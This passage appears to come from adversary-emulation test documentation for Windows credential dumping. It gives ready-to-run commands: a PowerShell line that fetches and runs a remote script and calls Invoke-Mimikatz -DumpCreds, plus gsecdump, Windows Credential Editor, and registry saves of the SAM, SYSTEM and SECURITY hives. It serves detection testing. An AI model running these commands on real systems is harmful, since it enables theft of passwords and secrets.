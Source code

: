 #### Run it with `powershell`!
```
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```
<br/>
<br/>

## Atomic Test #2 - Gsecdump
https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
gsecdump -a
```
<br/>
<br/>

## Atomic Test #3 - Windows Credential Editor
http://www.ampliasecurity.com/research/windows-credentials-editor/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting data should be placed | Path | output.txt|

#### Run it with `command_prompt`!
```
wce -o #{output_file}
```
<br/>
<br/>

## Atomic Test #4 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
<br/>
<br/>
